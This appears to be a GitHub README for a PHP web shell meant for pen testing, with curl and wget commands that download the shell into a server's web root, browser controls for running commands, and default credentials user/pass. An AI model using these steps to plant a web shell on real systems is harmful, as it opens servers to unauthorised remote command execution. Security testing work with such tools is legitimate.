 # php-shell
A simple, intuitive, feature rich, php web shell for pen testing.

### Usage

To download use one of the following (or similar)

```bash
curl https://github.com/eb3095/php-shell/raw/master/php-shell.php > /var/www/html/php-shell.php
```

```bash
wget https://github.com/eb3095/php-shell/raw/master/php-shell.php -O /var/www/html
```

From there just visit the website with /php-shell.php at the end and enjoy your web based shell from the host!

### Controls

* Arrow Up: History up
* Arrow Down: History down
* Enter: Run command
* Click Anywhere: Focus command prompt

History is not saved across sessions and is stored locally in the browser for the time being.

### Commands

* exit: Log out
* cd: Change directory
* cls: Clear the screen

cd is unique here. If you do the following,

```bash
cd /home; ls
```

This will be executed as a SH/BASH command. The cd will not set the current working directory outside of the exec. However,

```bash
cd /home
```

This will be executed as an internal command setting the PHP cwd and it is permanent (until refresh).

### Credentials

The defaults are,

* Username: user
* Password: pass

The username and password are both hashed via sha512 and set in the file directly.

### Screenshot

![Screenshot2](https://github.com/eb3095/php-shell/raw/master/screenshot2.png)

![Screenshot](https://github.com/eb3095/php-shell/raw/master/screenshot.png)